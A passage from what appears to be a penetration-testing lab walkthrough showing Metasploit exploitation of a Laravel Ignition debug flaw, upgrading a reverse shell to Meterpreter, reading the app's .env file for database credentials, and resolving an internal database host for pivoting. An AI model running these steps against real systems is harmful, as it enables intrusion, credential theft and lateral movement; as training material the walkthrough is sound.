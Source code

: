 ```shell-session
msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions -u -1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [-1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.9.0.185:4433
[*] Sending stage (989032 bytes) to 10.10.143.36
[*] Meterpreter session 2 opened (10.9.0.185:4433 -> 10.10.143.36:51132) at 2022-09-13 12:02:51 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         shell cmd/unix                                   10.9.0.185:4444 -> 10.10.143.36:53986 (10.10.143.36)
  2         meterpreter x86/linux  www-data @ 172.28.101.50  10.9.0.185:4433 -> 10.10.143.36:51132 (172.28.101.50)
```

After interacting with the Meterpreter session with `sessions -i -1` and exploring the application, we can see there are database credentials available:

Meterpreter Commands

```shell-session
meterpreter > cat /var/www/.env
# ...

DB_CONNECTION=pgsql
DB_HOST=webservice_database
DB_PORT=5432
DB_DATABASE=....
DB_USERNAME=...
DB_PASSWORD=...
```

We can use Meterpreter to resolve this remote hostname to an IP address that we can use for attacking purposes:

Meterpreter Commands

```shell-session
meterpreter > resolve webservice_database

Host resolutions
================

    Hostname             IP Address
    --------             ----------
    webservice_database  172.28.101.51
```
